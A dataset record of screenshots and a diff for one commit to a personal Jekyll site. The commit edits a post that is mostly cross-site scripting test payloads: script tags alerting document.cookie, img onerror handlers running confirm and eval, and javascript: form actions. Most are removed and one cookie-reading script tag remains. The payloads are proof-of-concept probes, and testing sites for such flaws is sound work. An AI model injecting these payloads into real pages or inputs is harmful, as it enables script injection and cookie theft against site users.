

Before and after one commit to arewss/arewss.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1015 px high. Shown: the whole window at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; a style sheet for code colours, icons or effects is not loaded; grey boxes are pictures that could not be loaded.

Commit message:
Update 2020-11-13-xss.md

```diff
--- a/_posts/2020-11-13-xss.md
+++ b/_posts/2020-11-13-xss.md
@@ -1,11 +1,3 @@
 
-> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	json
->	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
-> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
->	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
 > <script>alert(document.cookie)</script>”>
->	<script>alert(document.cookie)</script>”>
-> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
->	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
-> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
-<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
+<script>alert(document.cookie)</script>”>
```
